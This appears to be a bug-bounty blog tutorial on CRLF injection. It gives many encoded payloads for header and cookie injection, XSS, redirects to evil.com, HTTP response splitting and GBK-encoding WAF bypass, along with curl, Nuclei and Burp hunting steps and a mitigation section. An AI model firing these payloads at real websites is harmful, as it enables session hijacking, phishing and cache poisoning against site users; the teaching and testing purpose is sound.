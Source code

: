 Master CRLF Injection: The Underrated Bug with Dangerous Potential
Learn how attackers exploit CRLF Injection to manipulate HTTP responses, hijack headers and unlock hidden vulnerabilities in modern web applications
coffinxp
coffinxp

Following
9 min read
·
May 12, 2025
228


2






Introduction
In web security some vulnerabilities don’t get as much attention but can still cause major problems. One of these is CRLF Injection. Although it’s not as well-known as SQL Injection or Cross-Site Scripting, CRLF Injection can lead to serious issues like HTTP response splitting, web cache poisoning and even XSS attacks all of which can put a website at risk

What is CRLF Injection?
CRLF stands for Carriage Return (CR, %0d) and Line Feed (LF, %0a), which are special characters used to denote the end of a line in HTTP headers. CRLF Injection occurs when an attacker is able to inject these characters into HTTP headers or responses, manipulating how the server or client interprets the response.

By injecting CRLF sequences, an attacker can prematurely terminate headers and inject arbitrary headers or even body content leading to various attacks such as:

HTTP Response Splitting
Web Cache Poisoning
Cross-Site Scripting (XSS)
Session Fixation
How Does CRLF Injection Work?
CRLF Injection relies on the ability to inject a newline character (%0d%0a in URL encoding) into HTTP headers. When these characters are inserted at the wrong place in the response they can break the header structure allowing attackers to introduce custom headers or even manipulate the content of the response.

For example in a web application that doesn’t properly sanitize user input, an attacker could inject the following payload into a field that is reflected in the HTTP response headers:

%0d%0aX-Injection-Test: injected
This payload adds a new header (X-Injection-Test: injected) to the HTTP response.

Real-World Payload Examples
Basic Header Injection
One of the simplest forms of CRLF Injection is when attackers add custom headers. This is done by injecting the %0d%0a sequence:

%0d%0aX-Injection-Test: injected
This can lead to unauthorized header manipulation or potentially bypass access controls or caching mechanisms.

Cookie Injection
CRLF Injection can be used to inject new cookies into the HTTP response. This is particularly dangerous when session data or other sensitive information is being managed via cookies

%0d%0aSet-Cookie: hacked=true;
This payload injects a new cookie (hacked=true) into the response, which could lead to session hijacking or other attacks if exploited in a vulnerable web app.

HTML Injection
One of the more insidious uses of CRLF Injection is to inject HTML or JavaScript into an HTTP response, which can trigger cross-site scripting (XSS) or unwanted redirects. For example:

%0d%0a%3Ch1%3ECoffinxp%3C%2Fh1%3E%0A%3Cp%3ECRLF%20Injection%20PoC%3C%2Fh1%3E
Decoded html version:

<h1>Coffinxp</h1>
<p>CRLF Injection PoC</p>
This injects an HTML header (<h1>Coffinxp</h1>) and a paragraph (<p>CRLF Injection PoC</p>), potentially altering the page’s content in unexpected ways.

Redirection/phishing
CRLF Injection can be used to inject links that redirect users to phishing sites:

%0d%0a%0d%0a%3CA%20HREF%3D%22https%3A%2F%2Fexample.com%2F%22%3ELogin%20Here%20%3C%2FA%3E%0A%0A
Decoded html version:

<A HREF="https://example.com/">Login Here </A>
This injects a hidden link that could be used to trick users into clicking on a fake site login page. which could be used in social engineering or phishing attacks.

Injecting Dangerous HTML Elements
A common and dangerous use of CRLF Injection is to inject JavaScript code that executes in the victim’s browser leading to XSS attacks. For example an attacker can inject HTML elements with event handlers that trigger JavaScript execution.

%0d%0a%0d%0a%3Cimg%20src%3Dx%20onerror%3Dprompt%281%29%3E
Decoded html version:

<img src=x onerror=prompt(1)>
In this case the attacker uses an image with a broken src to trigger a JavaScript error which can execute arbitrary JavaScript code. which can be used to steal cookies, hijack sessions or perform other malicious actions.

Open Redirect
CRLF Injection can also be used to perform open redirect attacks by injecting a new Location header into the HTTP response. When successful this forces the browser to redirect the user to a malicious site which is often used in phishing campaigns.

%0d%0aLocation:%20https://evil.com
By injecting a new Location header using CRLF (%0d%0a), the server may interpret it as a legitimate redirect command. If the application does not sanitize user input properly, the browser will redirect the user to https://evil.com.

XSS Injection
Another common use of CRLF Injection is to insert JavaScript into an HTTP response, which can lead to Cross-Site Scripting (XSS). This allows attackers to run malicious scripts in the victim’s browser.

%0d%0a%0d%0a<script>alert('XSS via CRLF')</script>
This payload breaks the response and injects a <script> tag, causing the browser to execute the JavaScript code and display an alert.

Redirecting with JavaScript Injection
%0d%0a%0d%0a%3Cscript%3Edocument.location.href%3D%22https%3A%2F%2Fevil.com%22%3C%2Fscript%3E
Decoded version:

<script>document.location.href="https://evil.com"</script>
This injects a script that redirects the victim to a malicious site (evil.com), which could be used for phishing or malware distribution.

XSS Protection Bypass
A more advanced use of CRLF Injection involves disabling browser-based XSS protections by injecting custom HTTP headers. Attackers can insert the X-XSS-Protection: 0 header, which tells the browser to ignore built-in protections against reflected XSS.


%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.cookie%29%3C/script%3E
Decoded version:

?
Location:
Content-Type:text/html
X-XSS-Protection:0

<script>alert(document.cookie)</script>
Injects new headers (including disabling X-XSS-Protection)
Breaks the HTTP response
Inserts malicious JavaScript into the body, leading to a potential XSS attack
In this payload, the attacker disables XSS protection and injects a <script> tag that executes alert(document.cookie). This can lead to session hijacking, data theft or other malicious browser-side actions.

IFrame injection
Similarly, the attacker could inject a hidden iframe to redirect users to a malicious site:

%0d%0a%0d%0a%3Ciframe%20src%3D%22https%3A%2F%2Fwww.nasa.gov%2F%22%20style%3D%22border%3A%200%3B%20position%3Afixed%3B%20top%3A0%3B%20left%3A0%3B%20right%3A0%3B%20bottom%3A0%3B%20width%3A100%25%3B%20height%3A100%25%22%3E%0A
Decoded version:

<iframe src="https://www.nasa.gov/" style="border: 0; position:fixed; top:0; left:0; right:0; bottom:0; width:100%; height:100%">
This payload creates a full-page embedded iframe that loads the NASA website and overlays it completely over the current page, which can be used for clickjacking or phishing attacks.

HTTP Response Splitting
HTTP Response Splitting is a powerful technique made possible by CRLF Injection. By injecting %0d%0a (Carriage Return + Line Feed), an attacker can split the server’s HTTP response into two parts. This enables manipulation of headers and body content in unexpected ways.

/vulnerable-endpoint?q=abc%0d%0aContent-Length:0%0d%0a%0d%0aHTTP/1.1 200 OK%0d%0aContent-Type:text/html%0d%0a%0d%0a<script>alert('Split!')</script>
%0d%0a → Ends the current header line
Content-Length: 0 → Ends original response
A new HTTP/1.1 200 OK response starts with a malicious script in the body
The browser or cache may treat the second part as a new valid response
Bypass Technique (GBK Encoding Payload)
When basic CRLF payloads like the following get blocked by WAF:

/%0D%0ASet-Cookie:whoami=coffinxp
You can bypass the firewall using GBK-encoded characters that act like CR and LF. In GBK encoding:

嘍 = %E5%98%8D (interpreted as CR)
嘊 = %E5%98%8A (interpreted as LF)
Bypass Payload:

https://example.com/%E5%98%8D%E5%98%8ASet-Cookie:crlfinjection=coffinxp
This payload bypasses standard filtering and successfully injects a custom header like:

Set-Cookie: crlfinjection=coffinxp
XSS Chaining (GBK-encoded <script>)

To escalate CRLF to XSS:

< = 嘼 = %E5%98%BC
> = 嘾 = %E5%98%BE
Full Payload for CRLF → XSS (encoded):

https://example.com/%E5%98%8D%E5%98%8ASet-Cookie:whoami=coffinxp%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%BCscript%E5%98%BEalert(1);%E5%98%BC/script%E5%98%BE
This forces the server to break response headers and inject executable JS into the response body

Bypassing character blocklists with unicode overflows
Unicode codepoint truncation - also called a Unicode overflow attack - happens when a server tries to store a Unicode…
portswigger.net

How to Hunt
Now let me show you a very simple and effective way to hunt for CRLF injection vulnerabilities.

using cURL
One of the easiest ways to test for CRLF Injection is by using the command-line tool cURL. It allows you to send custom requests and observe how the server handles special characters.

curl -I "https://example.com/%0d%0aSet-Cookie:crlf=injected;
╭─[coffinxp@Lostsec]─[~]                                                                  (WSL at )─[ 96%]─[12,15:46]
╰─ curl -I "https://example.com/%0d%0aSet-Cookie:crlf=injected;"
HTTP/2 301
date: Mon, 12 May 2025 12:46:42 GMT
content-type: text/html
location: https://example.com/
set-cookie: crlf=injected;
In this request:

%0d%0a represents a CRLF sequence (Carriage Return + Line Feed).
Injected-Header: test is the custom header we’re trying to inject
Automate with Nuclei
You can also use my custom Nuclei template to easily detect CRLF injection vulnerabilities at scale across multiple target domains.

Scan a single URL:

nuclei -u https://target.com -t cRlf.yaml
Scan a list of subdomains:

subfinder -d domain.com -all | nuclei -t cRlf.yaml

nuclei-templates/cRlf.yaml at main · coffinxp/nuclei-templates
Contribute to coffinxp/nuclei-templates development by creating an account on GitHub.
github.com

using Loxs tool
You can also use our Loxs tool to perform mass scanning for CRLF injection vulnerabilities across multiple targets quickly and efficiently.


GitHub - coffinxp/loxs: best tool for finding SQLi,CRLF,XSS,LFi,OpenRedirect
best tool for finding SQLi,CRLF,XSS,LFi,OpenRedirect - coffinxp/loxs
github.com

my nuclei template vs crlfuzz tool
You’ll notice the difference my Nuclei template detects more vulnerable domains compared to the Crlfuzz tool, making it more effective for large-scale CRLF injection hunting.


Using Burp Suite
Burp Suite makes it easy to detect CRLF Injection by observing how the server responds to special newline characters in request parameters.

Steps:
Intercept a request using Burp (e.g., a GET request with a query parameter like ?page=home).
Send the request to Repeater.
Modify a parameter by injecting CRLF sequences like:
home%0d%0aSet-Cookie:injected=1
4. Observe the response:

Look for new headers in the response (e.g., a fake Set-Cookie, X-Test, etc.).
Check if the layout or page breaks, which may indicate header or body manipulation.
Example:

Original URL:

https://target.com/page=home
Tested with CRLF:

https://target.com/page=home%0d%0aSet-Cookie:crlf=1
If you see Set-Cookie: crlf=1 in the response headers, the site is vulnerable.

Advance Tips

Payloads
/%%0a0aSet-Cookie:coffin=hi
/%0aSet-Cookie:coffin=hi;
/%0aSet-Cookie:coffin=hi
/%0d%0aLocation: http://evil.com
/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
/%0d%0a%0d%0a<script>alert('XSS')</script>;
/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
/%0d%0aContent-Type: text/html%0d%0aHTTP/1.1 200 OK%0d%0aContent-Type: text/html%0d%0a%0d%0a<script>alert('XSS');</script>
/%0d%0aHost: {{Hostname}}%0d%0aCookie: coffin=hi%0d%0a%0d%0aHTTP/1.1 200 OK%0d%0aSet-Cookie: coffin=hi%0d%0a%0d%0a
/%0d%0aLocation: www.evil.com
/%0d%0aSet-Cookie:coffin=hi;
/%0aSet-Cookie:coffin=hi
/%23%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection:0%0d%0a%0d%0a<svg/onload=alert(document.domain)>
/%23%0aSet-Cookie:coffin=hi
/%25%30%61Set-Cookie:coffin=hi
/%2e%2e%2f%0d%0aSet-Cookie:coffin=hi
/%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a<script>alert(document.cookie)</script>%2F../%2F..%2F..%2F..%2F../tr
/%3f%0d%0aLocation:%0d%0acoffin-x:coffin-x%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection:0%0d%0a%0d%0a<script>alert(document.domain)</script>
/%5Cr%20Set-Cookie:coffin=hi;
/%5Cr%5Cn%20Set-Cookie:coffin=hi;
/%5Cr%5Cn%5CtSet-Cookie:coffin%5Cr%5CtSet-Cookie:coffin=hi;
/%E5%98%8A%E5%98%8D%0D%0ASet-Cookie:coffin=hi;
/%E5%98%8A%E5%98%8DLocation:www.evil.com
/%E5%98%8D%E5%98%8ALocation:www.evil.com
/%E5%98%8D%E5%98%8ASet-Cookie:coffin=hi
/%E5%98%8D%E5%98%8ASet-Cookie:coffin=hi;
/%E5%98%8D%E5%98%8ASet-Cookie:coffinxp=coffinxp
/%u000ASet-Cookie:coffin=hi;
/www.evil.com/%2E%2E%2F%0D%0Acoffin-x:coffin-x
/www.evil.com/%2F..%0D%0Acoffin-x:coffin-x
Resources:
CRLF (%0D%0A) Injection
Reading time: 11 minutes Carriage Return (CR) and Line Feed (LF), collectively known as CRLF, are special character…
book.hacktricks.wiki

Making HTTP header injection critical via response queue poisoning
HTTP header injection is often under-estimated and misclassified as a moderate severity flaw equivalent to XSS or…
portswigger.net

Mitigating CRLF Injection
To prevent CRLF Injection attacks, developers should:

Sanitize and Validate Input: Ensure that any user input that can be reflected in HTTP headers is properly sanitized. This includes stripping out \r (Carriage Return) and \n (Line Feed) characters.
Use Safe Functions for Header Manipulation: Avoid manually constructing headers. Use secure and well-tested libraries to handle HTTP header construction to prevent accidental injection.
Output Encoding: Encode special characters in user input, especially when displaying data in HTTP headers to prevent the insertion of malicious content
Conclusion
CRLF Injection is a hidden yet powerful vulnerability that can lead to serious issues like XSS, header injection and HTTP response splitting. By understanding how CR and LF characters are interpreted by servers and testing with crafted payloads, you can uncover and fix these flaws to keep your web applications secure

Upnext: If you found this helpful, you’ll definitely want to check out my article Mastering Rate Limit Bypass Techniques. It’s a practical guide to evading rate limits using real-world tricks, headers and automation methods 👇

Mastering Rate Limit Bypass Techniques
Learn How Hackers Bypass Rate Limits — and How You Can Too
infosecwriteups.com

Disclaimer
The content provided in this article is for educational and informational purposes only. Always ensure you have proper authorization before conducting security assessments. Use this information responsibly
